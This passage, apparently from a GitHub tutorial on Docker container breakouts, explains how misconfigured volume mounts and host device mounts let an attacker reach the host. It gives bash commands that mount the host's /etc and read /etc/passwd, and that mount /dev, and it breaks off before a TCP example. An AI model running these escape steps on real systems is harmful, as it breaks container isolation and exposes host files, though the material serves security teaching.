 # Container Breakouts

This document outlines various techniques to break out of Docker containers.  
From basic misconfigurations to more advanced exploitations, this guide will help you understand and demonstrate how attackers can escape from containers to the host system.  

## Prerequisites
- *Linux*
- [*Docker*](https://www.docker.com/)  

## Basic Container Breakouts 

### Sensitive Volume Mounts 

One of the simplest ways to break out of a container is through improperly configured volume mounts.  
If sensitive directories from the host are mounted into the container, an attacker can exploit this to gain access to host files.  

#### Example: Accessing /etc 


```bash
# Run a container with /etc mounted
docker run -it --rm -v /etc:/mnt/etc ubuntu /bin/bash

# Inside the container, access the host's /etc directory
ls /mnt/etc
cat /mnt/etc/passwd
```
In this example, mounting `/etc` from the host to `/mnt/etc` in the container allows the attacker to read sensitive information from the host's `/etc` directory, such as the `passwd` file.  


### Host Device Mounts 

Mounting host devices directly into containers can provide attackers with an easy way to interact with the host's hardware and kernel.

#### Example: Mounting /dev 


```bash
# Run a container with /dev mounted
docker run -it --rm -v /dev:/dev ubuntu /bin/bash

# Inside the container, manipulate host devices
ls /dev
```
By mounting the `/dev` directory, attackers can interact with host devices, potentially leading to privilege escalation or data exfiltration.  
Note that you can even initiate TCP connections, for example:  
